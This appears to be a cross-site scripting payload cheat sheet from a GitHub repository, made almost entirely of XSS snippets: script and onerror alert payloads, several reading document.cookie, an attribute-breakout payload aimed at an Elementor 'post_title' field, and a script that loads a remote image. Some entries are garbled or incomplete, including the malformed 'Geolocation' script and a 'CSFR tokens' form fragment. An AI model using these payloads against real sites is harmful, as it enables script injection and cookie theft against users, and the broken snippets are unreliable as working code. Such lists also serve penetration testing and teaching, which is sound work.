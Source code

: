 ## DOM & STORED
```
<script>alert(document.domain)</script>
```
## Self Cross-Site Scripting 
```mysql
<img src="" onerror="alert(document.cookie)">
```
## Non ExistantImage
```
<div><image src=validateNonExistantImage.png onloadstart=alert(1337)> hey girl hey </div>
```
## Get cookie
```
nu11secur1ty<script>alert(document.cookie)</script>
```
## Alert check
```
<script>alert("Hello");</script>
<script>alert("nu11secur1ty_is_here");</script>
```

## Hidden Image
```
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("A Hidden scripted image, warning you are vulnerable!");</script>
```
## Post image
```
<form action="#" method="post"><label for="imgURL">image URL:</label><input type="url" id="imgURL"/><label for="pageURL">page URL:</label><input type="url" id="pageURL"/><button id="imgAdd">add image</button></form>
```
- 0.1
```
</span><img src=https://cdn5-capriofiles.netdna-ssl.com/wp-content/uploads/2017/07/IMG_0068.gif <a href=http://example.com/> onerror=alert(1) /><span>
```
- without error report

```js
<span><img src=https://cdn5-capriofiles.netdna-ssl.com/wp-content/uploads/2017/07/IMG_0068.gif <a href=http://example.com/>
```
## Error check
```
</span><img src=1 onerror=alert(1) /><span>
```
## CSFR tokens
```
<form action="https:/yourdomain.com/acquire_token.php"></textarea>
```
## Geolocation
```
<script>Var today = new Date().toLocaleString() + 'week' + 'day one two three four five six'.charAt(new Date().getDay());document.getElementById('remote').src = "htttp:// + today + "----" + encodeURIComponent(position.coords.latitude) + "," + encodeURIComponent(position.coords.longitude</script>
```
## "post_title" parameter
```
<input class="elementor-field elementor-field-textual elementor-size-lg" type="text" placeholder="" value="\"><script>alert(document.cookie)</script><\"" name="post_title" id="dce_view_f9fc119_post_title">
```
## Document_cookie
```
<input class="elementor-field elementor-field-textual elementor-size-lg" type="text" placeholder="" value="\"><script>alert(document.cookie)</script><\"" name="post_title" id="dce_view_f9fc119_post_title">
```
